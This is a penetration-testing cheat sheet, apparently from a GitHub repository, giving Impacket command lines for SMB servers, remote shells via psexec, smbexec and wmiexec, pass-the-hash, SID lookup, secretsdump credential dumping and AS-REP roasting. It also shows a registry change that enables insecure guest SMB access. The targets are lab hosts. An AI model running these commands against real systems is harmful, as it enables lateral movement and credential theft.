 # Impacket Tools

## Impacket SMBServer
```
$sudo python3 impacket-smbserver -u <username> -p <password> <name of share> <location of share>
$sudo python3 impacket-smbserver -smb2support -u <username> -p <password> <name of share> <location of share>
$sudo impacket-smbserver -smb2support <name of share> `pwd`
$sudo python3 smbserver.py -smb2support files $(pwd) -username test -password test

Sample Usage: $python3 impacket-smbserver -u myusername -p secretpassword myshare $(pwd)
Tip: use $(pwd) for the current working  directory
```

## PSExec
```
[Sample Usage] python3 psexec.py Administrator@10.10.10.10 (enter password when prompted)
[PWD Auth] python3 psexec.py hacklab.local/ADLab02:P@ssw0rd123@192.168.10.17
[PTH] python3 psexec.py Administrator@192.168.10.17 -hashes "aad3b435b51404eeaad3b435b51404ee:58f5081696f366cdc72491a2c4996bd5"
```

## SMBExec
```
[Sample Usage] python3 smbexec.py Administrator@10.10.10.10 (enter password when prompted)
[PWD Auth] python3 smbexec.py hacklab.local/ADLab02:P@ssw0rd123@192.168.10.17
[PTH] python3 smbexec.py Administrator@192.168.10.17 -hashes "aad3b435b51404eeaad3b435b51404ee:58f5081696f366cdc72491a2c4996bd5"
```

## WMIExec
```
[Sample Usage] python3 wmiexec.py Administrator@10.10.10.10 (enter password when prompted)
[PWD Auth] python wmiexec.py hacklab.local/ADLab02:P@ssw0rd123@192.168.10.17
[PTH] python wmiexec.py Administrator@192.168.10.17 -hashes "aad3b435b51404eeaad3b435b51404ee:58f5081696f366cdc72491a2c4996bd5"
```

## MSSQLClient
```
$python3 mssqlclient.py -port 1433 -db volume -windows-auth <username>@<ip address>
```

## WMIExec
```
$python3 wmiexec.py <username@hostname>
$python3 wmiexec.py <username:password@hostname>
```

## LookupSID
```
$python3 lookupsid.py <domain/username@hostname>
$python3 lookupsid.py <domain/username:password@hostname>
```

## SecretsDumping
```
python secretsdump.py htb.local/Administrator@reel.htb.local (enter password when prompted)
```

## Windows 10 SMBShare Can Connect
[URL](https://www.youtube.com/watch?v=vyatMj1Z2NQ)
```
Regedit
Browse to: Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters
Create a DWORD 32bit key: AllowInsecureGuestAuth and set to 1 for on, 0 for off
```

## GetNPUSers
Queries target domain for users with 'Do not require Kerberos preauthentication' set and export their TGTs for cracking
```
python GetNPUsers.py htb.local/ -no-pass -usersfile domain_users.txt -format hashcat
```
